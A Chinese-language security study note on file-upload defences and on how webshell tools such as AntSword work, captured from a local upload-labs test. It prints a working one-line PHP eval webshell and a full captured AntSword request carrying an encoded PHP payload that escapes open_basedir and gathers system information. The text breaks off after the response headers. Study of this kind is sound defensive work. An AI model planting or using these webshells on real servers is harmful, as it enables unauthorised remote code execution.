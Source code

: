 ### **文件上传防御**
1. 关掉上传文件的功能
2. **文件上传的目录设置为不可执行**只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会收到影响，因此这一点至关重要。
3. 限制能够上传的文件大小，防止服务器瘫痪
4. 检查上传文件的类型
5. 检查上传文件的内容
6. 上传的文件不要保存在公开的文件夹内，以避免被黑客直接读取。另外将文件的路径隐藏起来，或是将文件名称改成没有扩展名的随机文件名，都可以增加上传文件的安全性。

### webshell连接工具/原理
> 分析webshell作用的原理以及webshell工具的流量  
我们知道一句话木马就是提供一个代码执行的环境  
大概了解就行，具体的webshell工具发送的php代码可以不用看，因为太复杂了。

- 中国菜刀（挺古老的）

- 蚁剑:
    - 蚁剑能使用的webshell：
        - 待补充
    - 本地测试，一句话木马`<?php @eval($_POST['liudehua'])?>`,使用burp抓取蚁剑的http包（设置好蚁剑的代理为burp监听的端口,测试完记得改回来），用wireshark也可以。
    - 当我们输出好参数测试webshell连接的时候。
        - 蚁剑发送的http包为
            ```http
                POST /upload-labs/shell.php HTTP/1.1
                Host: test.com:38888
                Accept-Encoding: gzip, deflate
                User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
                Content-Type: application/x-www-form-urlencoded
                Content-Length: 1489
                Connection: close
            
                liudehua=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24oparr%3Dpreg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24opdir)%3B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24tmdir%3D%22.e161c88fac4%22%3B%40mkdir(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%22..%22)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24oparr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24ocwd.%22%2F%22.%24tmdir)%3B%7D%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22542f7e%22.%2264b3bd%22%3Becho%20%40asenc(%24output)%3Becho%20%2200%22.%22493%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B  
            ```
        - 返回响应包为
            ```http
            HTTP/1.1 200 OK
            Date: Mon, 29 Nov 2021 02:36:52 GMT
            Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
            X-Powered-By: PHP/7.0.9
            Connection: close
            Content-Type: text/html; charset=UTF-8
            Content-Length: 117
            